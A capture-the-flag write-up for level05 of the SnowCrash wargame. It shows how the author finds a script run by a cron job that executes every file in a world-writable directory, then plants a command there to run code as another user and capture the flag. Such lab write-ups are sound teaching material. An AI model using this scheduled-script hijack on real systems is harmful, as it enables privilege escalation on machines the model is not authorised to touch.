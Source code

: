 # Level05

## Research 

```bash
level05@SnowCrash:~$ ls
```
returns nothing.

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
```bash
level05@SnowCrash:~$ cd /usr/sbin && ls -l openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 openarenaserver
```

The file has ACLs extended permissions. We can do `getfacl openarenaserver` to see them.</br>

```bash
level05@SnowCrash:/usr/sbin$ cat openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
For each file in `/opt/openarenaserver/` it will execute it then supress it.

`Invoking a Bash shell with the -x option causes each shell command to be printed before it is executed.` </br>
https://docs.actian.com/vector/4.2/index.html#page/SysAdmin/Bash_Shell_-x_Option.htm
`ulimit: user limits - limit the use of system-wide resources. -t The maximum amount of cpu time in seconds.`

```bash
level05@SnowCrash:/usr/sbin$ ./openarenaserver
bash: ./openarenaserver: Permission denied
```
We don't have rights to execute `openarenaserver`.
However the files I created to test stuff in `/opt/openarenaserver/` disappeared after a while, maybe `openarenaserver` is **launched by a cronjob** or something.

```bash
level05@SnowCrash:~$ echo 'getflag' > /opt/openarenaserver/getflag
```
And waiting a bit of time for the program to be launch didn't do anything. Maybe redirect the output somewhere can work.

## Solution

```bash
level05@SnowCrash:~$ echo 'getflag > /tmp/flag' > /opt/openarenaserver/getflag
```
Wait a bit...
```bash
level05@SnowCrash:~$ cat /tmp/flag
```
Give us the flag
